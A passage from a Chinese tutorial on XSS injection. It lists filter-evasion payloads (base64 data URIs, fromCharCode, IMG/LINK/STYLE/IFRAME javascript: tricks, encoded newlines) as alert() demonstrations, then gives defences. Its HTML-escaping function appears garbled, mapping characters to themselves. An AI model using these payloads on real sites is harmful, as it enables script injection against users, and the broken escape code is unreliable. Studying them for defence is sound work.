 不过这样的注入因为跨域的问题，恶意脚本是无法获取网站的cookie值。另外如果网站提供我们自定义flash路径，也是可以使用相同的方式进行注入的，下面是一段规范的在网页中插入flash的代码：
<pre>&lt;object type="application/x-shockwave-flash" data="movie.swf" width="400" height="300"&gt;
&lt;param name="movie" value="movie.swf" /&gt;
&lt;/object&gt;</pre>
把data属性改写成如下恶意内容，也能够通过base64编码进行注入攻击：
<pre>&lt;script&gt;alert("Hello");&lt;/script&gt;</pre>
经过编码过后的注入内容：
<pre>&lt;object data="data:text/html;base64, PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4="&gt;&lt;/object&gt;</pre>
用户在打开页面后，会弹出alert框，但是在chrome浏览器中是无法获取到用户cookie的值，因为chrome会认为这个操作不安全而禁止它，看来我们的浏览器为用户安全也做了不少的考虑。

### 　　常用注入方式

注入的根本目的就是要HTML标签溢出，从而执行攻击者的恶意代码，下面是一些常用攻击手段：

（1）alert(String.fromCharCode(88,83,83))，通过获取字母的ascii码来规避单双引号，这样就算网站过滤掉单双引号也还是可以成功注入的。

（2）&lt;IMG SRC=JaVaScRiPt:alert('XSS')&gt;，通过注入img标签来达到攻击的目的，这个只对ie6和ie7下有效，意义不大。

（3）&lt;IMG SRC=""onerror="alert('xxs')"&gt;，如果能成功闭合img标签的src属性，那么加上onload或者onerror事件可以更简单的让用户遭受攻击。

（4）&lt;IMG SRC=[javascript](http://cpro.baidu.com/cpro/ui/uijs.php?adclass=0&amp;app_id=0&amp;c=news&amp;cf=1001&amp;ch=0&amp;di=128&amp;fv=0&amp;is_app=0&amp;jk=95c351b31afbdc06&amp;k=javascript&amp;k0=javascript&amp;kdi0=0&amp;luki=4&amp;n=10&amp;p=baidu&amp;q=06011078_cpr&amp;rb=0&amp;rs=1&amp;seller_id=1&amp;sid=6dcfb1ab351c395&amp;ssp2=1&amp;stid=0&amp;t=tpclicked3_hc&amp;td=1922429&amp;tu=u1922429&amp;u=http%3A%2F%2Fwww%2Eadmin10000%2Ecom%2Fdocument%2F4182%2Ehtml&amp;urlid=0):alert('XSS')&gt;，这种方式也只有对ie6奏效。

（5）&lt;IMG SRC="jav ascript:alert('XSS');"&gt;，&lt;IMG SRC=java\0script:alert(\"XSS\")&gt;，&lt;IMG SRC="jav ascript:alert('XSS');"&gt;，我们也可以把关键字Javascript分开写，避开一些简单的验证，这种方式ie6统统中招，所以ie6真不是安全的浏览器。

（6）&lt;LINK REL="stylesheet" HREF="javascript:alert('XSS');"&gt;，通过样式表也能注入。

（7）&lt;STYLE&gt;@im\port'\ja\vasc\ript:alert("XSS")';&lt;/STYLE&gt;,如果可以自定义style样式，也可能被注入。

（8）&lt;IFRAME SRC="[javascript](http://cpro.baidu.com/cpro/ui/uijs.php?adclass=0&amp;app_id=0&amp;c=news&amp;cf=1001&amp;ch=0&amp;di=128&amp;fv=0&amp;is_app=0&amp;jk=95c351b31afbdc06&amp;k=javascript&amp;k0=javascript&amp;kdi0=0&amp;luki=4&amp;n=10&amp;p=baidu&amp;q=06011078_cpr&amp;rb=0&amp;rs=1&amp;seller_id=1&amp;sid=6dcfb1ab351c395&amp;ssp2=1&amp;stid=0&amp;t=tpclicked3_hc&amp;td=1922429&amp;tu=u1922429&amp;u=http%3A%2F%2Fwww%2Eadmin10000%2Ecom%2Fdocument%2F4182%2Ehtml&amp;urlid=0):alert('XSS');"&gt;&lt;/IFRAME&gt;，iframe的标签也可能被注入。

（9）&lt;a href="javasc ript:alert(1)"&gt;click&lt;/a&gt;，利用 伪装换行，:伪装冒号，从而避开对Javascript关键字以及冒号的过滤。

其实XSS注入过程充满智慧，只要你反复尝试各种技巧，就可能在网站的某处攻击成功。总之，发挥你的想象力去注入吧，最后别忘了提醒下站长哦。更多XSS注入方式参阅：(XSS Filter Evasion Cheat Sheet)[https://www.owasp.org/index.php/XSSFilterEvasionCheatSheet]

### 　　防范措施

对于防范XSS注入，其实只有两个字过滤，一定要对用户提交上来的数据保持怀疑，过滤掉其中可能注入的字符，这样才能保证应用的安全。另外，对于入库时过滤还是读库时过滤，这就需要根据应用的类型来进行选择了。下面是一个简单的过滤HTML标签的[函数](http://cpro.baidu.com/cpro/ui/uijs.php?adclass=0&amp;app_id=0&amp;c=news&amp;cf=1001&amp;ch=0&amp;di=128&amp;fv=0&amp;is_app=0&amp;jk=95c351b31afbdc06&amp;k=%BA%AF%CA%FD&amp;k0=%BA%AF%CA%FD&amp;kdi0=0&amp;luki=1&amp;n=10&amp;p=baidu&amp;q=06011078_cpr&amp;rb=0&amp;rs=1&amp;seller_id=1&amp;sid=6dcfb1ab351c395&amp;ssp2=1&amp;stid=0&amp;t=tpclicked3_hc&amp;td=1922429&amp;tu=u1922429&amp;u=http%3A%2F%2Fwww%2Eadmin10000%2Ecom%2Fdocument%2F4182%2Ehtml&amp;urlid=0)代码：
<pre>var escape = function(html){
  return String(html)
    .replace(/&amp;(?!\w+;)/g, '&amp;')
    .replace(/&lt;/g, '&lt;')
    .replace(/&gt;/g, '&gt;')
    .replace(/"/g, '"')
    .replace(/'/g, ''');
};</pre>
不过上述的过滤方法会把所有HTML标签都转义，如果我们的网站应用确实有自定义HMTL标签的需求的话，它就力不从心了。这里我推荐一个过滤XSS注入的模块，由本书另一位作者老雷提供：[js-xss](https://github.com/leizongmin/js-xss)
